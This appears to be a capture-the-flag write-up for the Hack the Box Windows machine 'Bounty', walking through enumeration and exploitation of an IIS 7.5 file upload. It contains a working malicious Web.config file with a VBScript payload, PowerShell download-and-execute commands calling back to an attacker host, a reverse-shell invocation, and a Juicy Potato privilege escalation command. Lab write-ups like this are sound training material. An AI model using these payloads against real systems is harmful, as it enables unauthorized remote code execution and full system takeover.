 ```yaml
---
title: Hack the Box - Bounty
date: 2022-08-20 12:44:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Bounty](/assets/HackTheBox/Bounty/Bounty.png)

# Bounty Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.93|Bounty|Windows|

## Path to Exploitation

COmpromising Bounty requires exploit a web-server that allows us to upload various file types. One of these files includes the .config extension, we can leverage this to upload a malicious Web.config file that contains a reverse shell command. After getting on the machine, we run some basic user and system enumeration commands and see that our user has the seImpersonatePrivilege enabled. We then use the Juicy Potato exploit elevate our privileges to SYSTEM.

# Bounty Enumeration

## Full Port Scan

```bash
nmap 10.10.10.93 -p- -oA Bounty/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.93 -p 80 -sC -sV -oA Bounty/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 7.5|

# Website

## Manually Inspecting the site

Landing page of the site:

![Site Page](/assets/HackTheBox/Bounty/site.png "Site Landing Page")

We can see the server is running IIS by inspecting the source of the page

![IIS 7](/assets/HackTheBox/Bounty/iis7.png "ISS 7")

We see in Burp the full version is 7.5

![IIS 7.5](/assets/HackTheBox/Bounty/iis7-5.png "ISS 7.5")

We see a potential vulnerability for this version of IIS [here](https://www.exploit-db.com/exploits/19033). 

## Directory Bruteforce

```shell
gobuster dir -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.93/ -o gobuster.out -x php,txt,aspx,asp,html
```

```shell
$ dirb http://10.10.10.93/
```

```shell
$ dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirsearch.out -u http://10.10.10.93/
```

**Key Findings:**

```
/aspnet_client
/aspnet_client/system_web/
/transfer.aspx
/Trace.axd
/UploadedFiles
/WebResource.axd?d=LER8t9aS
```

We get a access denied when trying to browse to the /uploadedfiles/ endpoint

But find a file upload at /transfer.aspx

![File Upload](/assets/HackTheBox/Bounty/file-upload.png "File Upload")

## Shell on Host

### Targeting the File Upload 

We can identify which file types are allowed by using Burp Intruder. Attempt to upload a text file and send the request to Intruder.

Set the variable to the file extension

![Intruder Setup](/assets/HackTheBox/Bounty/intruder-setup.png "Setting up Intruder")

We will use a list of common file extensions as our target list. We first need to remove the dot to prevent any issues with Burp processing them

![Target List](/assets/HackTheBox/Bounty/target-list.png "Target List")

Load the file into Burp, and start the attack

![Intruder Attack](/assets/HackTheBox/Bounty/intruder-attack.png "Intruder Attack")

We soon see that the response length of 1350 indicates a successful upload

![Valid Response](/assets/HackTheBox/Bounty/valid-1350.png "Valid Response")

We can filter by this value to see all the acceptable file extensions.

![Valid File Types](/assets/HackTheBox/Bounty/valid-file-types.png "Valid File Types")

We see we are able to upload .config files, following [this](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) article we see that we can exploit this to get command execution.

We can use a similar Web.config file to launch our reverse shell. We'll first want to transfer the Invoke-PowerShellTcp.ps1 script to our working directory and add the following line to the bottom of the file:
```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 443
```

We then create the following Web.config file:
```shell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.4/Invoke-PowerShellTcp.ps1')")
%>
```

We add our command to the file to call back to our host, download, and execute the reverse shell payload.

Upload the file to the host, setup an HTTP server and a nc listener. Then navigate to /uploadedfiles/Web.config

We see that we have a shell on the box running as the merlin user

![Foothold](/assets/HackTheBox/Bounty/foothold.png "Foothold")

# Local Enumeration

## System Information

![System Information](/assets/HackTheBox/Bounty/system-info.png "System Information")

## User Enumeration

```shell
C:\> whoami /groups
```

![User Groups](/assets/HackTheBox/Bounty/user-groups.png "User Groups")

```shell
C:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Bounty/user-privs.png "User Privileges")

Based on these privileges it appears that this host may be vulnerable to the Juicy Potato exploit

# Privilege Escalation

Upload the Juicy Potato exploit

```shell
PS:\> certutil -urlcache -f http://10.10.14.4/JuicyPotato.exe C:\tmp\juicy.exe
```

We'll re-use our powershell script and run the same command we used in the Web.config file

Setup a nc listener and execute the command

```shell
PS:\> .\juicy.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')" -t *
```

Checking back on our listener we see have a shell running as SYSTEM

![Shell as SYSTEM](/assets/HackTheBox/Bounty/priv-esc.png "Shell as SYSTEM")
